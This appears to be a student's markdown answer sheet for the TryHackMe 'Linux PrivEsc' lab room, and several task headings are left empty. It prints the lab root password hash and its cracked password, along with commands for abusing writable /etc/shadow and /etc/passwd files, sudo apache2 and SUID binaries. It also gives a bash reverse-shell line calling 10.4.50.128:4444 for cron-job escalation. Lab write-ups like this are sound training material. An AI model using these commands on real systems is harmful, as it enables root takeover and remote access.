 # Linux PrivEsc

* IP = 10.10.163.8
* <a href="https://tryhackme.com/room/linuxprivesc">Room Link</a>

## Task 1:

1. Deploy the machine and login to the "user" account using SSH.
*Ans-No Answer Needed*

2. Run the "id" command. What is the result?
**Ans-uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)**

## Task 2(Service Exploits):

1. Read Above
*No Answers Needed*

## Task 3(Readable /etc/shadow):

1. What is the root user's password hash?
**Ans-$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0**

2. What hashing algorithm was used to produce the root user's password hash?
**Ans-sha512crypt**

3. What is the root user's password?
**Ans-password123**

## Task 4(Writable /etc/shadow):

```bash
mkpasswd -m sha-512 newpasswordhere
```
1. Read Above
*No Answers Needed*

## Task 5(Writable /etc/passwd):

```bash
openssl passwd newpasswordhere
su root
```

1. Run the "id" command as the newroot user. What is the result?
**Ans-uid=0(root) gid=0(root) groups=0(root)**

## Task 6( Sudo - Shell Escape Sequences):

1. How many programs is "user" allowed to run via sudo?
**Ans-11**

2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
**Ans-apache2**

3. Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.
*No Answers Needed*
```bash
sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
* Now crack the hash

## Task 7(Sudo - Environment Variables):

1. Read and follow along with the above.
*No Answers Needed*

## Task 8(Cron Jobs - File Permissions):

1. Read Above
*No Answers Needed*
* Privesc using bash and a listener:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.4.50.128/4444 0>&1
```

## Task 9:
## Task 10(Cron Jobs - Wildcards):

1. Read Above
*No Answers Needed*

## Task 11(SUID / SGID Executables - Known Exploits):

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
1. Read Above
*No Answers Needed*

## Task 12(SUID / SGID Executables - Shared Object Injection):

1. Read Above
*No Answers Needed*

## Task 13:
## Task 14:
## Task 15:
## Task 16:
## Task 17:
## Task 18:
## Task 19:
## Task 20(Kernel Exploits):

1. Read Above
*No Answers Needed*

## Task 21:

1. Read Above
*No Answers Needed*
